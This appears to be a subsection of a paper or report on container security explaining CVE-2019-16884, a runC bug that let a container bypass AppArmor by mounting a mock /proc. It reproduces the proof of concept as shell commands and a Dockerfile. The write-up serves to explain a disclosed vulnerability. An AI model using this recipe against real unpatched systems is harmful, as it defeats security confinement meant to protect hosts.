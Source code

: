 \subsection{CVE--2019--16884}\label{subsection:CVE-2019-16884}
A bug in runC (1.0.0-rc8 and older versions) made it possible to mount \lstinline{/proc} in a container. Because the active AppArmor profile is defined in \lstinline{/proc/self/attr/apparmor/current}, this vulnerability allows a container to completely bypass AppArmor.

\medskip

A proof of concept has been provided at\cite{CVE-2019-16884-Github}. We see that if we create a very simple mock \lstinline{/proc}, the Docker starts without the specified AppArmor profile.
\begin{lstlisting}[caption={Bypass AppArmor by mounting \lstinline{/proc}.},captionpos=b]
(host)$ mkdir -p rootfs/proc/self/{attr,fd}
(host)$ touch rootfs/proc/self/{status,attr/exec}
(host)$ touch rootfs/proc/self/fd/{4,5}
(host)$ cat Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
(host)$ docker build -t apparmor-bypass .
(host)$ docker run --rm -it --security-opt "apparmor=docker-default"  apparmor-bypass
# container runs unconfined
\end{lstlisting}
